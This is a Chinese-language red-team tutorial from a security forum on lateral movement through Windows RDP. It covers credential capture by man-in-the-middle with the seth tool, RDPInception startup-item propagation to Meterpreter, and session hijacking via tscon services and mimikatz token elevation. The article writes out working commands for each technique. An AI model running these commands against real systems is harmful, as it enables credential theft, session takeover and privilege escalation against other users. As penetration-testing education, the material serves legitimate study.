 

# 横向移动之 RDP&Desktop Session Hijack - 先知社区

横向移动之 RDP&Desktop Session Hijack

- - -

## 文章前言

管理员在内部网络中广泛使用远程桌面协议 (rdp)，这允许系统所有者和管理员远程管理 windows 环境，然而，RDP 可以给攻击者提供各种机会来实施攻击，这些攻击可以用于红队场景中的横向移动，下面的攻击可以让 RedTeam 获得凭据，劫持其他用户的 RDP 会话，并对远程系统执行任意代码，这些远程系统将使用 RDP 作为受感染工作站的身份验证机制。

## RDP 劫持

实施中间人攻击通常会导致凭据捕获，它正在对 RDP 会话执行这种攻击，这将允许攻击者为了横向移动的目的而轻易地获得域帐户的纯文本密码，seth 是一个工具，无论是否启用网络级身份验证 (nla),它都可以自动执行 RDP 中间人攻击，实施这种攻击需要四个参数：

-   以太网接口
-   攻击者的 ip
-   受害主机的 ip
-   目标 rdp 主机的 ip
    
    ```bash
    ./seth.sh eth0 10.0.0.2 10.0.0.3 10.0.0.1
    ```
    
    [![](assets/1706090536-fb1c4070f73c67a1352817bfb7556a2d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124101841-e44d7d7e-ba5e-1.png)

在执行时，该工具将在后台执行一系列步骤，以确保成功实施攻击：

1.  ARP 欺骗
2.  允许转发 ipv4 流量，将流量从受害主机重定向到攻击者计算机，然后重定向到目标 rdp 服务器
3.  配置 iptable 规则来拒绝 syn 数据包，以防止直接 rdp 身份验证
4.  捕获目的主机的 syn 数据包
5.  ssl 证书的克隆
6.  重新配置 iptables 规则，将流量从受害工作站路由到目标 rdp 主机
7.  阻止到端口 88 的流量，以将 kerberos 身份验证降级到 ntlm

步骤 1-3 将在受害者认证之前执行，试图通过 rdp 向目标服务器进行身份验证的用户将收到以下消息： 
[![](assets/1706090536-48f982f99b7f84c8a0ba33aef2a5e593.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124101909-f4d8b37a-ba5e-1.png)  
当用户建立连接时，凭据将以纯文本形式显示给攻击者  
[![](assets/1706090536-23cdf6570c4eb7c8bf813678d94f5c79.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124101921-fc3b6fe0-ba5e-1.png)

PS:该方法笔者在本地未实验成功，因为有 SSL 强校验，在实战中建议慎用~

## RDP Inception

mdsec 发现了一种技术，该技术允许攻击者在启动时执行任意代码并通过 RDP 连接传播，从而在网络内部执行横向移动，整个思路大致如下：  
[![](assets/1706090536-140b3c9d8cfec90aa0b38d39ef3e6eec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102018-1e60d998-ba5f-1.png)  
而在渗透测试中，如果我们获得某台服务器 C 的控制权，而最终目标是 PC X，但由于对方高度安全的网络环境限制，我们只有采取 RDPInception 攻击方式，通过对接入 C 的服务器 B 进行攻击控制，之后，对接入 B 的服务器 A 进行攻击控制，最终，对接入 A 的 PC X 形成攻击控制，整个攻击链如下：

```bash
PC X RDP ————> Server A
Server A RDP ————> Server B
Server B RDP ————> Server C
```

为了促进这种攻击，mdsec 开发了一个批处理脚本 ([https://github.com/mdsecactivebreach/RDPInception](https://github.com/mdsecactivebreach/RDPInception) ) 来实现概念验证，不过该技术在利用时有一个先决条件就是内网其他主机远程连接受感染主机时"本地资源"选项中设置了加载 C 盘：  
[![](assets/1706090536-0a49db06c0e041d5f27b244b0b2dbb37.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102049-3074cca2-ba5f-1.png)  
之后攻击者可以在已经获得访问权限的主机上执行批处理脚本将获得一个 shell  
[![](assets/1706090536-e00117e1ffa218e6f86f9c7797350d1c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102106-3ab0d83c-ba5f-1.png)  
该脚本执行之后将会在已经获得访问权限的 WIndow 7 主机上和远程连接的主机上同时创建启动项：  
[![](assets/1706090536-b1f827319eb4e0f3fa9d63d56588e6dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102121-438f88e0-ba5f-1.png)  
之后当远程连接受感染主机的 Windows Server 2008 重新启动时将会执行恶意载荷：  
[![](assets/1706090536-1cdbfce023e6c1244d40d17f64de4a79.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102134-4b69120c-ba5f-1.png)  
同时打开一个新的 Meterpreter 会话：  
[![](assets/1706090536-79f284fb991fd607163f7cac4cb83895.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102144-518f3ee0-ba5f-1.png)  
从而成功获取到 Windows Server 2008 的权限，由于是启动项所以同时也实现了权限维持，该技巧还有一个好处就是如果当我们初始获得的权限较低，我们可以先运行脚本 run.bat，之后当有域管理员用户或者管理员远程 RDP 登录目标主机时我们可以获得一个高权限的会话，从而间接实现权限提升~  
[![](assets/1706090536-207bc1ad7f98064b28ba509dc5f4a278.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102156-583db41a-ba5f-1.png)

## RDP Session Hijacking

如果在目标系统上获得了本地管理员访问权限，攻击者就有可能劫持另一个用户的 RDP 会话，这消除了攻击者发现该用户凭据的需要，这项技术最初是由 alexander korznikov 发现的，并在他的博客中进行了描述。  
[http://www.korznikov.com/2017/03/0-day-or-feature-privilege-escalation.html](http://www.korznikov.com/2017/03/0-day-or-feature-privilege-escalation.html)  
在 cmd 中输入"taskmg"之后可以从"Users"选项卡中的 windows 任务管理器中检索可用会话列表

[![](assets/1706090536-92f24dc94e4dec1d647f801f7f6a0ab2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102215-63b1f0d6-ba5f-1.png)  
从命令提示符可以获得相同的信息  
[![](assets/1706090536-5fd9e181672f1b661a948f5164241e71.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102237-71287730-ba5f-1.png)  
之后我们可以创建一个以系统级权限执行 tscon 的服务将劫持 id 为 2 的会话

```bash
sc create sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"
net start sesshijack
```

[![](assets/1706090536-2fcdd6153af5156c2550a6e3b760a6a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102257-7cedf54a-ba5f-1.png)  
PS：这里的劫持命令构造补充一下

[![](assets/1706090536-61897e7d06557264a5134c6e5a8d6428.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102317-88a146bc-ba5f-1.png)  
当服务启动时，我们可以明显的感觉到当前远程登录的操作界面已经发生了变化，之后我们打开 CMD 发现当前用户已经变为了"Administrator"，即用户"Al1ex"在不知道密码的情况下使用 Administrator 的会话：

[![](assets/1706090536-f52b332ba2c738ef1d29e00f6cab8be7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102435-b7463fea-ba5f-1.png)  
mimikatz 也支持这种技术，我们这使用 Mimikatz 从 administrator 切换为 Al1ex 用户：  
第一步是检索终端服务会话列表

```bash
ts::sessions
```

[![](assets/1706090536-10345644726fc0f059e4a56dcfd00298.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102513-ce123a9e-ba5f-1.png)  
如果是低权限用户，尝试直接使用会话 2 将失败，因为 mimikatz 尚未作为系统权限执行，因此，以下命令会将令牌从本地管理员提升到系统，在不需要知道用户密码的情况下使用另一个会话：

```bash
privilege::debug
token::elevate
ts::remote /id:2
```

[![](assets/1706090536-ba12bd28f0e91f74ac7eda51b108cbb4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102536-db696988-ba5f-1.png)  
再次执行以下命令又回到了熟悉的"Al1ex"用户的会话界面

```bash
ts::remote /id:2
```

[![](assets/1706090536-4fa2e24f99791a07aabb1b18d1236364.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102554-e650c49a-ba5f-1.png)

## Desktop Session Hijacking

Windows 允许多个用户在同一时间登录操作系统，但是在某一个时间段内只能由一个用户操作，所有如果有其他用户想要使用同样的主机，那么当前的用户必须退出登录 (log out) 会话或者使用 Switch user 功能切换到另一用户，同时保持他们原有的会话在后端运行，当新用户登录后我们可以在任务管理模块看到先前用户的 Session 会话信息依旧存在，例如：

[![](assets/1706090536-d2e3c11548e717a421915c779d2609fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102610-f0057508-ba5f-1.png)

该会话信息会等待先前的用户再次使用，我们也可以通过在命令行中执行以下命令来查看当前的会话信息：

```bash
quser
```

[![](assets/1706090536-4bac6931c2f625c37d9f3479128ccda8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102647-0605a206-ba60-1.png)  
而 RDP 也允许通过远程的方式进行连接，当用户由于网络问题断开连接时用户的会话信息依旧会被保存，之后用户可以通过重新连接，Session 对于用户来说非常友好，但是正如我们上图中看到的当用户会话被断开时依旧保存之前的记录信息，如果先前登录的用户具备高权限，那么攻击者可以通过会话劫持的方式进行来获得高权限，具体如下所示：

[![](assets/1706090536-014c61bc6e1e153fadbf420c6828b563.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102703-0fb01f02-ba60-1.png)  
之后键入回车后直接切换会话信息且不用输入前一个用户的登录认证密码：

[![](assets/1706090536-f4042029d73a2451f57b0bbf50b9037c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102714-15eab918-ba60-1.png)

之后成功劫持 Alex 用户的 Session 会话，你可以在此基础上进行各项操作：

[![](assets/1706090536-4370e1faa2830b513b43adf9e9426e06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124102736-22ed28da-ba60-1.png)

## 参考链接

[https://www.reddit.com/r/purpleteamsec/comments/m6jyj1/desktop\_session\_hijacking\_lateral\_movement/](https://www.reddit.com/r/purpleteamsec/comments/m6jyj1/desktop_session_hijacking_lateral_movement/)
